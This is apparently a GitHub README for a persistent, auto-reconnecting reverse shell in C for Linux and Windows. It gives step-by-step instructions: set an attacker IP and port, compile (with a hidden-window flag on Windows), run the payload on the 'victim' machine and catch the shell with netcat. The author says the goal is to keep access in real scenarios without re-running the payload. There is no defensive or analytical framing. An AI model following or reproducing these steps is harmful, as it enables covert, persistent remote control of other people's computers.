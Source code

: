 # Reverse Shell Pro Max (Project_RSPM)

Read more about it in descreption or down below at last...

---

## Project Structure

The repository is structured as follows:


- **Project_RSPM_UNIX**: Contains C code designed to work on **Linux** systems.
- **Project_RSPM_WIN**: Contains C code designed to work on **Windows** systems.

---

## Features

- **Persistent Connection**: Continuously sends connection requests every second until successful.
- **Automatic Reconnection**: If the connection drops, the reverse shell payload automatically attempts to reconnect.
- **Target Specific IP and Port**: Easily change the IP and port where the reverse shell connects.
- **Works on Linux and Windows**: Separate codebases for each platform, with instructions for compiling and running.

---

## Installation and Usage

### 1. **Linux**

#### Step 1: Modify IP and Port
- Open the C file (`reverse_shell_6th_try_somehow_working.c`) located in the **Project_RSPM_UNIX** folder.
- Modify the `IP` and `PORT` to match the attacker's machine IP and desired port.

    ```c
    #define IP "192.168.100.215" // Replace with your attacker's IP
    #define PORT 4444            // Replace with your desired port
    ```

#### Step 2: Compile the C Code
- Compile the C code using `gcc`:

    ```bash
    gcc -o reverse_shell reverse_shell_6th_try_somehow_working.c
    ```

#### Step 3: Run the Payload
- Run the compiled reverse shell executable on the victim machine:

    ```bash
    ./reverse_shell
    ```

#### Step 4: Listen for Connections
- On your attacker's machine, use `nc` or another listening tool to catch the reverse shell connection:

    ```bash
    nc -lvnp 4444
    ```

---

### 2. **Windows**

#### Step 1: Modify IP and Port
- Open the C file (`reverse_shell_3rd_try_somehow_working.c`) located in the **Project_RSPM_WIN** folder.
- Modify the `IP` and `PORT` to match the attacker's machine IP and desired port.

    ```c
    #define IP "192.168.100.215" // Replace with your attacker's IP
    #define PORT 4444            // Replace with your desired port
    ```

#### Step 2: Install MinGW
- Install MinGW for compiling C code on Windows. If you don't have it installed, use the following command:

    ```bash
    sudo apt install mingw-w64
    ```

#### Step 3: Compile the C Code for Windows
- Compile the C file using the MinGW cross-compiler:

    ```bash
    x86_64-w64-mingw32-gcc reverse_shell_3rd_try_somehow_working.c -o reverse_shell.exe -lws2_32 -mwindows
    ```

#### Step 4: Run the Payload
- Run the compiled executable on the victim’s Windows machine:

    ```bash
    ./reverse_shell.exe
    ```

#### Step 5: Listen for Connections
- On the attacker's machine, listen for the reverse shell connection:

    ```bash
    nc -lvnp 4444
    ```

---

## Contributors

Feel free to open an issue or submit a pull request for improvements or new features. Contributions are welcome!

---

## Incomplete...

This project is incomplete and i made it as i am just a starter to code in c and its somehow working but hope some experienced c programmer will modify it or contribute here...

## ScriptKiddy -> TheGreen
Just random thought came to my mind while using msfvenom payload that if we are disconnected mistakenly, then we have to re-run the payload on the victim's machine. In testing, it's fine, but in a real scenario, it's simply not possible to re-run the payload or something like that situation may occur. I thought about this and I don't know if something like this is already available on GitHub or somewhere on the internet, but this repo is just a ScriptKiddy thought and made so that after running it once, we can connect to it whenever we want. If we are connected, it doesn't send the connection request, and if disconnected, it starts sending the connection request every second and loop...
